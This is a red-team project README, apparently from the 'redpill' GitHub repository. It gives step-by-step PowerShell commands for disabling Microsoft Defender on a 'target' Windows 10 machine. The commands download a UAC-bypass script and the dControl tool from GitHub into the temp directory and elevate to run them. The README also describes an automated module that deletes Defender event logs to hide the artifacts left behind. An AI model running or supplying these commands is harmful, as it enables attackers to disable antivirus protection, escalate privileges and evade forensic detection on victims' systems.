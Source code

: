 ## :octocat: Disable WinDefend service (anti-virus)

<br />

Author: @Sordum (RedTeam) | @r00t-3xp10it<br />
Tested Under: Windows 10 (19042 build) x64 bits<br />
dControl webpage: https://www.sordum.org/9480/defender-control-v1-9/<br />
Required Dependencies: <b><i>Invoke-WebRequest</i></b> {native} , <b><i>dControl.zip</i></b> {auto-download}<br />
Optional Dependencies: <b><i>UacMe.ps1</i></b> {auto-download}<br />

<br />

## :octocat: DisableDefender.ps1 - Project Description
[Defender Control](https://www.sordum.org/9480/defender-control-v1-9/) is a small Portable freeware which will allow you to disable Microsoft Defender in Windows 10 completely.<br />But it requires [Admin privileges](https://www.howtogeek.com/194041/how-to-open-the-command-prompt-as-administrator-in-windows-8.1/) on shell to do it .. The solluction ?? [@redpill - UacMe.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) Or [@redpill - DisableDefender.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bin/DisableDefender.ps1)

<br />

## :octocat: Proof-Of-Concept ( Disable WinDefend Manually )

Upload <b><i>'dControl.exe'</i></b> + <b><i>'dControl.ini'</i></b> + <b><i>'UacMe.ps1'</i></b> to target <b><i>%tmp%</i></b> directory.
```Powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/UacMe.ps1" -OutFile "$Env:TMP\UacMe.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/DWD/dControl.zip" -OutFile "$Env:TMP\dControl.zip"
```

Expand <b><i>'dControl.zip'</i></b> archives
```powershell
Expand-Archive -Path "$Env:TMP\dControl.zip" -DestinationPath "$Env:TMP" -Force
```

Change to  [@redpill](https://github.com/r00t-3xp10it/redpill) working directory
```powershell
cd $Env:TMP
```

<b><i>Disable</i></b> WinDefend service using [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) <b><i>'UacMe.ps1'</i></b> module
```powershell
.\UacMe.ps1 -Action Elevate -Execute "$Env:TMP\dControl.exe /D"
```

<b><i>Enable</i></b> WinDefend service using [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/UacMe.ps1) <b><i>'UacMe.ps1'</i></b> module
```powershell
.\UacMe.ps1 -Action Elevate -Execute "$Env:TMP\dControl.exe /E"
```

<br /><br />

## :octocat: Proof-Of-Concept ( automatic )
Remark:  [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/bin/DisableDefender.ps1) -> DisableDefender.ps1 module automates the all process described above!<br />and deletes all artifacts left behind including eventvwr <b><i>logfiles</i></b> from Windows-Defender categorie.

Download [@redpill](https://github.com/r00t-3xp10it/redpill/blob/main/redpill.ps1)
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/redpill.ps1" -OutFile "redpill.ps1"
```

Access <b><i>'-DisableAV'</i></b> parameter <b><i>help</i></b> menu
```powershell
.\redpill.ps1 -Help DisableAV
```

<b><i>Disable</i></b> WinDefend service
```powershell
.\redpill.ps1 -DisableAV Stop
```

<b><i>Enable</i></b> WinDefend service
```powershell
.\redpill.ps1 -DisableAV Start
```
